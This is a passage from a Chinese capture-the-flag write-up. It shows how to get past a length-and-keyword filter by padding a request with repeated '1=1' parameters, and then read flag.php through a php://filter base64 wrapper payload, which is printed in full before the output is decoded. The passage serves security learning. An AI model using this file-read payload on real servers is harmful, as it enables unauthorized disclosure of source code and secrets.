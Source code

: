 6. 这个规则很简单，我们只要将长度扩充超过800，并且包含flag，就能成功绕过

```php
1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&1=1&flag=php://filter/convert.base64-encode/resource=flag.php
```

- 不能太长，太长也会让服务器拒绝响应

![alt text](images/image-8.png)

7. 然后我们得到一个base64编码后的字符串，接着我们进行base64解码
